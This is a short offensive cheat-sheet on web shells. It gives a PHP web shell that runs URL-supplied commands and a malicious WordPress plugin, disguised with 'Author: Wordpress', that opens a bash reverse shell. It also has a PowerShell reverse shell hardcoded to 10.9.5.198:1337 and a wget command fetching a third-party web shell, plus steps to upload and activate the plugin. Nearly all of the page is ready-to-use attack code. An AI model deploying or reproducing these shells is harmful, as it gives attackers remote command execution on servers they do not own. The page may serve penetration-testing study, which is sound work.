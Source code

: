 title: Web Shells

# Web Shells

## Basic PHP

Simple PHP webshell, add `?cmd={command}` to the URL.

```php
<?php
echo "You entered <pre>" . $_GET['cmd'];
system($_GET['cmd']);
?>
```

## Wordpress

You can abuse the wordpress plugin feature to get a reverse shell if you have access to install plugins.

* Linux Host
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("/bin/bash -c 'bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1'")
?>
```

* Windows Host ( powershell )
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('10.9.5.198',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'");
?>
```
Save the above to a file, compress into a `.zip` archive and then upload & activate.

## Simple-PHP-Web-Shell

[Simple-PHP-Web-Shell](https://github.com/artyuum/Simple-PHP-Web-Shell) by [Artyumm](https://github.com/artyuum) is nice webshell that includes a command box and nicely formatted output

```
wget https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php
```

![](https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/screenshot.png)

